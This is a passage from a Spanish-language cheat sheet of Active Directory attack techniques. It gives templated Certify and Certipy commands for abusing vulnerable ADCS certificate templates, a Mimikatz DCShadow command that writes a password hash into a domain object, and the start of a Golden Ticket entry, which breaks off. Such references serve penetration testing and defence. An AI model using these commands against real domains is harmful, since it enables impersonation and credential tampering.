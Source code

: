 [Volver al índice](#índice-de-técnicas)

---

## 2. Certificate-Based Impersonation (ADCS Abuse)

| Aspecto         | Detalle                                                                                          |
|-----------------|-------------------------------------------------------------------------------------------------|
| **Descripción** | Solicita un certificado abusando de una plantilla vulnerable para autenticarse como otro usuario.|
| **Condiciones** | CA (ADCS) mal configurada o plantilla vulnerable.                                               |

**Herramientas y comandos:**

- **Windows:**  
  - **Certify:**  
    ```powershell
    Certify.exe request /ca:<CA> /template:<Template> /altname:user@dominio.local
    ```
- **Linux:**  
  - **Certipy:**  
    ```bash
    certipy req -u <user> -p <pass> -ca <CA> -template <Template>
    ```

[Volver al índice](#índice-de-técnicas)

---

## 3. DCShadow Attack

| Aspecto         | Detalle                                                                                  |
|-----------------|-----------------------------------------------------------------------------------------|
| **Descripción** | Replica cambios maliciosos en AD usando un DC falso.                                    |
| **Condiciones** | Privilegios Domain Admin y acceso a red interna.                                        |

**Herramientas y comandos:**

- **Windows:**  
  - **Mimikatz:**  
    ```powershell
    mimikatz # lsadump::dcshadow /object:<usuario> /attribute:unicodePwd /value:<hash>
    ```

[Volver al índice](#índice-de-técnicas)

---

## 4. Golden Ticket Attack

| Aspecto         | Detalle                                                                                          |
|-----------------|-------------------------------------------------------------------------------------------------|
| **Descripción** | Crea un TGT falso usando el hash de KRBTGT.                                                     |
| **Condiciones** | Hash KRBTGT (Domain Admin)                                                                      |

